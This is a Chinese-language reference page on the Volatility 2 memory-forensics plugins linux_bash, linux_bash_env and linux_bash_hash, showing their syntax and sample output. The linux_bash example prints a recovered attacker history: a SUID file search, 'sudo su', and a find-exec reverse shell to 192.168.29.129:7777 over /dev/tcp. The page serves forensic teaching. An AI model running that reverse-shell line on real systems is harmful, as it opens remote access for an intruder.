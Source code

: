 

示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1831 bash                 2023-09-08 03:14:52 UTC+0000   find / -perm -4000 -exec ls -la {} \; 2>/dev/null 
    1831 bash                 2023-09-08 03:14:52 UTC+0000   0
    1831 bash                 2023-09-08 03:15:05 UTC+0000   sudo su
    1831 bash                 2023-09-08 03:15:29 UTC+0000   find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.29.129/7777 0>&1 \;
    2020 bash                 2023-09-08 03:15:33 UTC+0000   whoami
...
```





### linux_bash_env

```
vol2 -f ... --profile=...  linux_bash_env [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```



示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash_env
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Vars
-------- -------------------- ----
       1 systemd              
       2 kthreadd             
       3 rcu_gp               
       4 rcu_par_gp           
       6 kworker/0:0H         
       9 mm_percpu_wq         
      10 ksoftirqd/0          
```



### linux_bash_hash

```
vol2 -f ... --profile=...  linux_bash_hash [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```
